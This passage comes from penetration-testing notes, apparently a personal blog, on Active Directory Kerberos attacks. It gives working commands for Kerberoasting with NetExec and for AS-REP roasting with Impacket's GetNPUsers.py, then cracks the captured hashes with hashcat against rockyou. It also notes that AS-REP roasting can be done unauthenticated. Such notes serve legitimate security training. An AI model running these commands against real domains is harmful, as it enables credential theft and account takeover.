 ![[AD_kerb_blood.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/Notes/photos/AD_kerb_blood.png)

The same thing can be done using `NetExec` :

```bash
nxc ldap $DC_IP -u $USER -p "$PASSWORD" -d $DOMAIN.local --kerberoasting KERBEROASTING
```

![[AD_kerb_cme.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/Notes/photos/AD_kerb_cme.png)

You can now use tools like `hashcat` to try cracking the recovered hash:

`hashcat -m 13100 Kerberoastables.txt /usr/share/wordlists/rockyou.txt`

> Note that you can get a `ST` for a service account. You won't be able to crack it because it is generated automatically by the DC. It is a 120 random characters long passwords. Good luck cracking this XD.
{: .prompt-warning}

### AS-REPRoasting

Because some applications don't support Kerberos `preauthentication`, it is common to find users with **Kerberos preauthentication disabled**, hence allowing attackers to request `TGTs` for these users and crack the session keys offline.

As for the `Kerberoast` attack, you can also use `Bloodhound GUI` to search `AS-REPRoastable` users. But here we are going to look only for the command line exploit.

#### Enumeration / Exploitation

```bash
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $DC_IP "$DOMAIN/$USER:$PASSWORD"
```

Here we just listed the potentially vulnerable users and exported their hash from the `TGT` in a file called `ASREProastables.txt`.

If this doesn't work or if you don't have a valid pair of credentials you can provide a user list like so:

![[AD_kerb_getnpuser.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/Notes/photos/AD_kerb_getnpuser.png)

> Note that you can use the `-hashes "$LM_HASH:$NT_HASH"` to use the hash of the user you own instead of its password.
{: .prompt-tip}

We can now try to crack them all using `hashcat`:

`hashcat -m 18200 -a 0 ASREProastables.txt /usr/share/wordlists/rockyou.txt`

It may be worth mentioning that we can exploit AS-REProasting as an unauthenticated attacker. We just need to know the domain name (visible in crackmapexec output) and the username (that we can bruteforced with kerbrute or using a user list like we did earlier).


### Golden / Silver Tickets
